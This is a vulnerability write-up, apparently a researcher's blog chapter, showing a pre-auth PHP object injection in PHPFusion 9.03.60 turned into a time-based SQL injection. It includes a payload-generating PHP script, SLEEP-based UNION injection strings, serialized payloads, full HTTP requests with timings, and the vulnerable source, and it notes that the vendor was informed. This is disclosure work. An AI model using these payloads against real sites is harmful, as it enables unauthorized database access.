



# C111: PHPFusion v9.03.60, PHP Object Injection to SQL injection (pre-auth)

In the previous chapter, we highlighted the presence of a unauthenticated POI. After a quick analysis of the actions carried out on the created object, we are now able to transform this POI into a SQL injection.

## How?

In order to demonstrate the SQLi, we will use the code below to generate a valid payload allowing us to complete the exploit.

File: <span style="color:red">gen.php</span>
```php
<?php

$ar["comment_item_id"] = "INJECT_HERE_1";
$ar["comment_item_type"] = "INJECT_HERE_2";
var_dump($ar);

$payload = urlencode(base64_encode(serialize($ar)));
var_dump($payload);

?>
```

If we modify one of the two injection points presented above and use the payload generated within the request from the previous chapter, we realize that the vulnerability is triggered. 

For example, replace `"INJECT_HERE_2"` by `"' UNION SELECT SLEEP(0)-- - '"`:

File: <span style="color:red">gen.php</span>
```php
<?php

$ar["comment_item_id"] = "INJECT_HERE_1";
$ar["comment_item_type"] = "' UNION SELECT SLEEP(0)-- - '";
var_dump($ar);

$payload = urlencode(base64_encode(serialize($ar)));
var_dump($payload);

?>
```

Then generate our payload:

```
▶ php gen.php
array(2) {
  ["comment_item_id"]=>
  string(13) "INJECT_HERE_1"
  ["comment_item_type"]=>
  string(29) "' UNION SELECT SLEEP(0)-- - '"
}
string(156) "YToyOntzOjE1OiJjb21tZW50X2l0ZW1faWQiO3M6MTM6IklOSkVDVF9IRVJFXzEiO3M6MTc6ImNvbW1lbnRfaXRlbV90eXBlIjtzOjI5OiInIFVOSU9OIFNFTEVDVCBTTEVFUCgwKS0tIC0gJyI7fQ%3D%3D"
```

And use it as our payload in the request:

Request
```
POST /projects/php-fusion/includes/classes/PHPFusion/Feedback/Comments.ajax.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 172

comment_options=YToyOntzOjE1OiJjb21tZW50X2l0ZW1faWQiO3M6MTM6IklOSkVDVF9IRVJFXzEiO3M6MTc6ImNvbW1lbnRfaXRlbV90eXBlIjtzOjI5OiInIFVOSU9OIFNFTEVDVCBTTEVFUCgwKS0tIC0gJyI7fQ%3D%3D
```

We then notice that the server takes about 120 milliseconds to respond. 



Now substitute `"INJECT_HERE_2"` with `"' UNION SELECT SLEEP(5)-- - '"`:

File: <span style="color:red">gen.php</span>
```php
<?php

$ar["comment_item_id"] = "INJECT_HERE_1";
$ar["comment_item_type"] = "' UNION SELECT SLEEP(5)-- - '";
var_dump($ar);

$payload = urlencode(base64_encode(serialize($ar)));
var_dump($payload);

?>
```

It gives us the following payload:

```
▶ php gen.php
array(2) {
  ["comment_item_id"]=>
  string(13) "INJECT_HERE_1"
  ["comment_item_type"]=>
  string(29) "' UNION SELECT SLEEP(5)-- - '"
}
string(156) "YToyOntzOjE1OiJjb21tZW50X2l0ZW1faWQiO3M6MTM6IklOSkVDVF9IRVJFXzEiO3M6MTc6ImNvbW1lbnRfaXRlbV90eXBlIjtzOjI5OiInIFVOSU9OIFNFTEVDVCBTTEVFUCg1KS0tIC0gJyI7fQ%3D%3D"
```

That we use in the request below:

Request:
```
POST /projects/php-fusion/includes/classes/PHPFusion/Feedback/Comments.ajax.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 172

comment_options=YToyOntzOjE1OiJjb21tZW50X2l0ZW1faWQiO3M6MTM6IklOSkVDVF9IRVJFXzEiO3M6MTc6ImNvbW1lbnRfaXRlbV90eXBlIjtzOjI5OiInIFVOSU9OIFNFTEVDVCBTTEVFUCg1KS0tIC0gJyI7fQ%3D%3D
```

We can see that the server puts at about 10,000 milliseconds to respond.



## Why?

In order to understand why the POI allows us to perform a SQL injection, let's dive into the code the function `getInstance()`.

File: <span style="color:red">\<ROOT\>/includes/classes/PHPFusion/Feedback/Comments.inc</span>
```php
public static function getInstance(array $params = [], $key = 'Default') {

    if (dbcount('(settings_name)', DB_SETTINGS, "settings_name=:jq", [':jq' => 'comments_jquery'])) {
        dbquery("DELETE FROM ".DB_SETTINGS." WHERE settings_name=:jq", [':jq' => 'comments_jquery']);
    }

    if (!isset(self::$instances[$key])) {
        self::$instances[$key] = new static();
        self::$key = $key;
        $params['comment_key'] = $key;
        self::$params = $params + self::$params;
        self::setInstance($key);
    }

    return self::$instances[$key];
}
```

As we can see above, the function takes as first parameter, an array (array that we control thanks to the POI). The property `$instances` of the `Comments` object not being set, instantiations are performed to finally call the function `setInstance()`.

File: <span style="color:red">\<ROOT\>/includes/classes/PHPFusion/Feedback/Comments.inc</span>
```php
private static function setInstance($key) {
    $obj = self::getInstance([], $key);
    $obj->setParams(self::$params);
    $obj->setEmptyCommentData();
    $obj->checkPermissions();
    $obj->execute_CommentUpdate();
    $obj->get_Comments();
}
```

Function `setInstance()` will actually call `checkPermissions()`, which is the function that allows us to inject SQL sequences using `$this->getParams('comment_item_id')` and `$this->getParams('comment_item_type')`.

File: <span style="color:red">\<ROOT\>/includes/classes/PHPFusion/Feedback/Comments.inc</span>
```php
private function checkPermissions() {
    $my_id = fusion_get_userdata('user_id');
    if (dbcount("(rating_id)", DB_RATINGS, "
        rating_user='".$my_id."'
        AND rating_item_id='".$this->getParams('comment_item_id')."'
        AND rating_type='".$this->getParams('comment_item_type')."'
        "
    )
    ) {
        $this->replaceParam('comment_allow_vote', FALSE); // allow ratings
    }
    if (dbcount("(comment_id)", DB_COMMENTS, "
        comment_name='".$my_id."' AND comment_cat='0'
        AND comment_item_id='".$this->getParams('comment_item_id')."'
        AND comment_type='".$this->getParams('comment_item_type')."'
        "
        )
        && $this->getParams('comment_once')
    ) {
        $this->replaceParam('comment_allow_post', FALSE); // allow post
    }
}
```

The SQL injection is therefore a Time Based SQL injection for which you can consult the POC. Since the call to the `dbcount()` function is made twice, it is necessary to note that the delay established using the `SLEEP(n)` function will be multiplied by two.

The author of the application has been informed of the vulnerability.

## Ref

- [POC](https://github.com/therealcoiffeur/therealcoiffeur.github.io/blob/master/tools/PHP-Fusion/poi_to_sqli_9.03.50.py)
- [https://packetstormsecurity.com/files/158077/PHP-Fusion-9.03.60-PHP-Object-Injection-SQL-Injection.html](https://packetstormsecurity.com/files/158077/PHP-Fusion-9.03.60-PHP-Object-Injection-SQL-Injection.html)
